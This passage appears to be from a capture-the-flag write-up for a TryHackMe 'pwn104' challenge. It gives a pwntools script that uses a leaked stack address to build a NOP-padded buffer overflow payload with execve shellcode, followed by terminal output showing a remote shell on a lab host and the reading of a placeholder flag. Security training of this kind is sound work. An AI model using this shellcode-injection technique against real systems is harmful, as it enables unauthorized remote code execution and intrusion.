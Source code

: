 ```py
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

io = start()

padding = 88
shellcode = asm(shellcraft.sh())
shellcode += asm(shellcraft.exit())

print(io.recvuntil(b'at ').decode())

leaked_address = int(io.recvline(), 16)

info("leaked_address : %#x",leaked_address)

payload=flat(asm('nop')*padding,leaked_address+100,asm('nop')*40,shellcode)


write("payload.txt",payload)
io.sendline(payload)

io.interactive()

```


```bash
# Running the exploit

python3 get_shell.py REMOTE 10.10.145.112 9004
[+] Opening connection to 10.10.145.112 on port 9004: Done
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤ 
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 104          

I think I have some super powers 💪
especially executable powers 😎💥

Can we go for a fight? 😏💪
I'm waiting for you at 
[*] leaked_address : 0x7ffd64d5ffd0
[*] Switching to interactive mode
$ ls
flag.txt
pwn104
pwn104.c
$ cat flag.txt
THM{fake_flag}   # get you own flag

```
